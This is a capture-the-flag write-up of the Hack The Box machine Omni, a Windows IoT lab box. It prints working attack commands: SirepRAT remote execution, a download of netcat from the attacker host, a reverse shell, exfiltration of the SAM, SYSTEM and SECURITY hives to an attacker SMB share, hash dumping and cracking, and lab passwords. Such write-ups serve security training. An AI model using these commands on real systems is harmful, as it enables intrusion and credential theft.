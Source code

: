 ```yaml
---
layout: post
title:  "Hack The Box - Omni Writeup"
date:   2021-01-09 06:00:00
categories: "htb"
author: Ryan
image: 
  path: /assets/img/htb/HTB-Omni/Header.png
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](../images/HTB-Omni/Header.png)

Omni is an Easy level "Other" machine. Boxes typically fall under the "Linux" or "Windows" category, so this deviation from the norm should lead to a fun and interesting challenge. Based on the creator and community statistics, this box has a decent balance across all areas, but leaning slightly more towards realistic configurations exploited with existing CVEs.  
![Statistics](../images/HTB-Omni/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p135,5985,8080,29817,29819,29820 -sV -sC -Pn -oA Extracts/Omni 10.10.10.204`  
![Nmap](../images/HTB-Omni/nmap.png)

* **Port 135 - msrpc**: Microsoft Remote Procedure Call, is used to negotiate communication over ports 1025 - 65535. 
* **Port 5985 - upnp**: Although nmap shows this port is hosting some type of IIS server, port 5985 is also used for [WinRM](https://docs.microsoft.com/en-us/windows/win32/winrm/portal). If we're able to find credentials, it's posible this will be our way into the machine.
* **Port 8080 - upnp**: Another reference to IIS here, it looks like one of our nmap scripts discovered a "Windows Device Portal" application requiring basic authentication. 
* **Ports 29817, 29819, 29820**: After a bit of research, it appears that these ports are related to WPCon, WPConTCPPing, WPPingSirep, and WPConProtocol2. The Arcserve reference could also be useful later on.

### Windows IoT
Looking into the "Windows Device Portal" finding, we're led to documentation around the Windows IoT platform. We're likely targetting an IoT device, which should narrow down our focus with CVEs and exploits.

## Foothold
Combining the discovery of a Windows IoT device with the higher ports, we find an exploit against the Sirep Test Service that allows for Remote Code Execution. We can leverage this using a simple python tool called [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT), along with a list of writeble directories to work with.  
![Writeable](../images/HTB-Omni/Foothold_Writeable.png)

### Upload Netcat
Our first step to gaining access on the machine is to upload a netcat executable. This will allow us to create a connection back to our machine and execute additional commands. Start up a simple python server to host our nc46.exe.  
`>> python -m SimpleHTTPServer`

Next, we'll execute a command on the target server to request our file and download it to the Windows Temp directory.  
`>> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell -c Invoke-WebRequest -OutFile C:\\Windows\\Temp\\nc64.exe -URI 10.10.14.28:8000/nc64.exe" --v`

### Reverse Shell
With the netcat executable in place, our next step is to create a listener on our local machine.  
`>> nc -lvnp 4444`  

We'll send a second command to the target server, this time connecting back to our listener and gaining shell as the Omni user.  
`>> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\Temp\\nc64.exe 10.10.14.28 4444 -e cmd.exe"`  
![Reverse Shell](../images/HTB-Omni/Foothold_Shell.png)  

### Locating Credentials
Typically, the user flag can be found easily in the Desktop of the user you gained access with. However, this box seems to have a different setup than most and will require us to do a little extra digging. We can search for the `user.txt` file with Powershell.  
`>> powershell -c get-childitem -path c:\ -filter user.txt -recurse -erroraction silentlycontinue -force`  
![Flag Search](../images/HTB-Omni/Foothold_Search.png)  

Reading the contents of `C:\Data\Users\app\user.txt` leads to some Powershell credential information. Unfortunately, we can't decrypt the flag inside yet because it belongs to the app user.  
![User File](../images/HTB-Omni/Foothold_User.png)  

### Extracting SAM, SYSTEM, SECURITY files
Although there is an alternative path on this box involving a batch file left behind during creation, we'll be looking at the intended solution dumping user hashes from the registry. The Security Account Manager (or SAM file) is a database containing all the password hashes for user accounts. The SYSTEM and SECURITY files will allow us to extract the hashes for cracking.

We'll start off by configuring an SMB Share on our local machine to tansfer the files to.  
`>> sudo smbserver.py share . -smb2support -username omni -password omni`

With the share running, we can connect to it from the Omni shell using the credentials we set up.  
`>> net use \\10.10.14.15\share /u:omni omni`

And now, we're able to extract the files while sending them to our machine:  
`>> reg save HKLM\sam \\10.10.14.15\share\SAM`  
`>> reg save HKLM\system \\10.10.14.15\share\SYSTEM`  
`>> reg save HKLM\security \\10.10.14.15\share\SECURITY`  
![SMB Share](../images/HTB-Omni/SMB_Share.png)

### Extracting Hashes
With the files we need successfully sent to our local machine, we're able to extract the hashes inside using `secretsdump.py`.  
`>> secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL`  
![Hashes](../images/HTB-Omni/Hashes.png)

### Cracking Hashes
Our last step to getting user credentials is to run the hashes through `hashcat` and see what we can find.  
`>> .\hashcat.exe -a0 -m1000 .\hash.txt .\rockyou.txt --username`  
![Hashes Cracked](../images/HTB-Omni/Hashes_Cracked.png)

Looks like we've got credentials for the app user!
`app:mesh5143`

### User Flag
Authenticating with the app user credentials against port 8080 results in access to the Windows Device Portal we previously discovered. Under `Processes > Run Command`, we're able to execute arbitrary commands on the system. Let's get the User flag  
`>> powershell -c $credential = Import-CliXml -Path C:\Data\Users\app\user.txt;$credential.GetNetworkCredential().Password`
![User Flag](../images/HTB-Omni/User_Flag.png)  

## Privilege Escalation
In addition to the user flag file, the app user's directory contains an `iot_admin.xml` file. Executing the previous command against the new file results in gaining the admin password `_1nt3rn37ofTh1nGz`.

Reauthenticating to the dashboard using the administrative credentials, we're shown an identical screen as the app user. Again, navigating to `Processes > Run Command` will allow us to execute system commands, this time as the admin. 

### Root Flag
`>> powershell -c $credential = Import-CliXml -Path C:\Data\Users\administrator\root.txt;$credential.GetNetworkCredential().Password`  
![Root Flag](../images/HTB-Omni/Root_Flag.png)  